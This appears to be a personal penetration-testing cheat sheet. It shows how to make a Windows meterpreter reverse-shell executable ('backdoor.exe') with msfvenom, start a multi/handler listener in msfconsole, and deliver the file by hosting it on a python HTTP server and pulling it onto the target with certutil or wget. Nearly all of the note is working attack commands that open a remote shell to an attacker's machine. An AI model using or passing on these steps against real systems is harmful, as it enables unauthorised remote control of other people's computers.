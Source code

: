 ## Windows Reverse Shell exe
- Create the payload
	```
	# msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=<your_port> -f exe > backdoor.exe
	```
	- Other payloads
		```
		windows/x64/meterpreter/reverse_tcp
		```
- Start a listener on #tools/multi/msfconsole 
	```
	> use multi/handler
	> set payload windows/meterpreter/reverse_tcp
	> set LHOST/LPORT
	```
- Execution options
	- Transfer and run through msfconsole
	- Download on the target machine if you have access to it
		- Host:
			```
			python3 -m http.server 80
			```
		- Target:
		```
		> certutil -urlcache -f http://<your_ip>/<file_name> <file_name>
		> OR
		> wget http://<you_IP>
		```